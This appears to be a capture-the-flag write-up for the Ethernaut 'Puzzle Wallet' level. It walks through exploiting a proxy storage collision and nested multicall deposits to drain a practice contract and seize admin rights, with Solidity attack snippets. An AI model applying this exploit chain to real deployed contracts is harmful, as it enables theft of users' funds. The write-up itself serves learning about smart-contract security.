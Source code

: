 >  You'll need to hijack this wallet to become the admin of the proxy.

## Backtracking from the goal

### Exploiting storage collisions

The aim is to overwrite the admin of the `PuzzleProxy`, which is the second storage slot:

```solidity
address public pendingAdmin;
address public admin;
```

The implementation uses the proxy's storage, because of the `delegatecall` mechanics.
The second storage of `PuzzleWallet` is `maxBalance`:

```solidity
address public owner;
uint256 public maxBalance;
mapping(address => bool) public whitelisted;
mapping(address => uint256) public balances;
```

Setting `maxBalance` to the player's address will make him the admin!

Similarly, `proposeNewAdmin` changes the first slot of the proxy, which is actually the owner of the implementation.
`proposeNewAdmin` has no restrictions, we can just propose any address:

```solidity
PuzzleProxy(proxy).proposeNewAdmin(address(this));
```

### 

Both `init` and `setMaxBalance` can modify `maxBalance` to gain admin privileges.

`init` requires that `maxBalance` is null, which is counterproductive:
if we could somehow modify it, we'd set it to the player address.


`setMaxBalance` has 2 requirements:

```solidity
function setMaxBalance(uint256 _maxBalance) external onlyWhitelisted {
    require(address(this).balance == 0, "Contract balance is not 0");
    maxBalance = _maxBalance;
}
```

Being whitelisted and zeroing the contract's balance.

### Whitelisting

After becoming the owner of the wallet,

```solidity
function addToWhitelist(address addr) external {
    require(msg.sender == owner, "Not the owner");
    whitelisted[addr] = true;
}
```

### Emptying the contract

Unfortunately, the contract has some ether:

```js
await getBalance(contract.address) // '0.001'
web3.utils.fromWei((await contract.balances(await contract.owner())).toNumber().toString()) // '0.001'
```

The only way to move funds out is through the `execute` function:

```solidity
function execute(address to, uint256 value, bytes calldata data) external payable onlyWhitelisted {
    require(balances[msg.sender] >= value, "Insufficient balance");
    balances[msg.sender] -= value;
    (bool success, ) = to.call{ value: value }(data);
    require(success, "Execution failed");
}
```

However, one is not supposed to extract more than one deposited.

So the end goal is to make a deposit and somehow get a balance higher than the incoming funds.
There is a hint in the `multicall` function:

```solidity
if (selector == this.deposit.selector) {
    require(!depositCalled, "Deposit can only be called once");
    // Protect against reusing msg.value
    depositCalled = true;
}
```

Calling deposit several times in a single transaction will multi spend the `msg.value`.

## Stacking deposit calls

So the contract has `0.001` ether.
If we deposit `0.001` ether, it will have `0.002`.

The goal is exploit `multicall` to fake a balance of `0.002` while depositing only `0.001`.

A straightforward `multicall` with two deposits looks like:

```solidity
bytes memory depositData = abi.encodeWithSelector(PuzzleWallet.deposit.selector);
bytes[] memory data = new bytes[](2);
data[0] = depositData;
data[1] = depositData;
PuzzleWallet(wallet).multicall{value: 0.001 ether}(data);
```

Sadly stacking deposits is forbidden.
Instead `multicall` can be stacked:

```solidity
bytes memory depositData = abi.encodeWithSelector(PuzzleWallet.deposit.selector);
bytes[] memory insideMulticallData = new bytes[](1);
bytes[] memory outsideMulticallData = new bytes[](2);
insideMulticallData[0] = depositData;
outsideMulticallData[0] = depositData;
outsideMulticallData[1] = abi.encodeWithSelector(PuzzleWallet.multicall.selector, insideMulticallData);
PuzzleWallet(wallet).multicall{value: 0.001 ether}(outsideMulticallData);
```

And then the balance withdrawn:

```solidity
PuzzleWallet(wallet).execute(address(this), 0.002 ether, "");
```

## Overwriting the admin

Now, all that's left is casting the player's address to an integer:

```solidity
PuzzleWallet(wallet).setMaxBalance(uint256(player));
```

The full attack chain is written is the [`Stack` contract](stack.sol).
To complete the attack, this contract must handle payments too.

[github-proxy]: https://github.com/OpenZeppelin/ethernaut/blob/master/contracts/contracts/helpers/UpgradeableProxy-08.sol